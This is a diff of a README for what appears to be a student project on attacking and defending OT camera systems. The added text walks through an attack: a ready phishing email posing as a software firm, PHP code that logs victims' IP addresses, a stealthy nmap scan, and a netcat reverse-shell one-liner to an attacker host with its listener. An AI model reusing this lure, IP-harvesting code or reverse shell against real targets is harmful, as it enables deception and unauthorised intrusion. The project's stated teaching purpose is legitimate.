

Before and after one commit to 93he/Offense-Meets-Defense-Protecting-OT-Camera-Systems, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -1,11 +1,56 @@
 Offense Meets Defense: OT Cybersecurity Strategies vs IT Adversary-in-the-Loop
 
- 🎓 University Cybersecurity Project – Educational Only
+This document is for educational purposes only. The author is not responsible for any illegal or unethical misuse of the information provided.
+Description:
+This project demonstrates how an IT based adversary may attempt to infiltrate an Operational Technology (OT) environment and how cybersecurity controls can defend against it. The scenario begins with information gathering and OSINT, where an attacker collects publicly exposed company data and targets employees through phishing — illustrating the importance of email security awareness. Once an attacker gains initial access, they could map network assets and identify vulnerable IoT or camera monitoring systems using passive reconnaissance. OT devices often run BusyBox based firmware, making them high risk when unpatched. Defensively, the project emphasizes network segmentation, VLAN hardening, logging, intrusion detection, and staff awareness training. The final objective is to show how combining offensive simulation and defensive strategies strengthens OT security.
+________________________________________
+In the first thing, we need information gathering about the target:
+First, need the <IP> of the victim to scan and see all ports that are open to attack the port to have access in the network. Need to do a phishing email:
 
-⚠️ Disclaimer:This project is for educational purposes only. It must not be used for real‑world unauthorized access.
+Subject: Discover How Solution_code Can Transform Your Business – Free 30 Min Consultation
+Dear [Client's Name],
+I hope this message finds you well.
+My name is [Your Name], and I represent Solution_Code, a company dedicated to delivering cutting edge technology solutions, software, and tools designed to enhance efficiency, streamline operations, and drive business growth.
+At Solution_Code, we offer a wide range of services, multiple packages, and diverse content, all tailored to meet the unique needs of businesses like yours.
+To explore our solutions and discover which packages suit your business best, feel free to visit our website: [https://SolutionCodeDev.com]
+We would like to invite you to a free 30 minute consultation, where we will:
+• Demonstrate how our solutions and software can simplify your daily operations.
+• Explore innovative ways to increase productivity and reduce costs.
+• Guide you through the variety of packages and services we offer.
+• Provide a tailored experience, showing firsthand the value our tools can bring to your organization.
+Special Offer: Register for the consultation now and receive 30% off on all packages and solutions!
+Visit the link to see all packages’ solutions:
+[https://SolutionCodeDev.com/offers.php]
+We understand that every business is unique, which is why this session is fully customized to your requirements.
+To schedule your consultation at a convenient time, please click here [https://SolutionCodeDev.com/consultation.php] or simply reply to this email.
+We look forward to the opportunity to partner with you and help take your business to the next level.
+Warm regards,
+[Your Name]
+[Your Position]
+Solution_Code
+[0000000000] | [SolutionDev@gmail.com] | [https://SolutionCodeDev.com]
+________________________________________
+Now, waiting for the click and booking a free session in the website. A PHP code is used PHP trick (PHP gets the visitor's IP address and saves all IPs in a file called visitors.txt). After one click on the website, it returns the victim <IP> because the website runs on (Apache HTTP Server).
+The code file name in web (log.php): The trick:
+<?php
+$ip = $_SERVER['REMOTE_ADDR'];
+file_put_contents("visitors.txt", $ip . "\n", FILE_APPEND);
+?>
+To put this in all pages, a new file in the project is made called (header.php)
+It has inside:
+<?php include('log.php'); ?>
+To put this at the top of all pages to guarantee that if the victim enters any page, his IP address will be recorded.
+________________________________________
+Now I have <IP> of the victim, that means I have the first step in the company to have access in camera monitor. Need to use a scanner:
+nmap -Pn -f -T1 -p 21,22,80,8080 <IP>
 
----
+Now I have port 80 open.
+Let's open <IP>:80, a website works. Let's try to write a reverse shell in input in website to have access because the project is in the victim device.
+Reverse shell:
+rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> 2299>/tmp/f
+On Kali terminal write:
+nc -lnvp 2299
 
- 📘 Project Summary
-This project demonstrates how an IT adversary may attempt to infiltrate an OT environment, and how cybersecurity controls can defend against each stage. It compares offensive attack stages vs defensive security strategies.
+It works. Now I have reverse shell in the victim employee in company — second step is done.
+________________________________________
 
```
Also changed, not shown: other parts of README.md (+53 -34 lines).
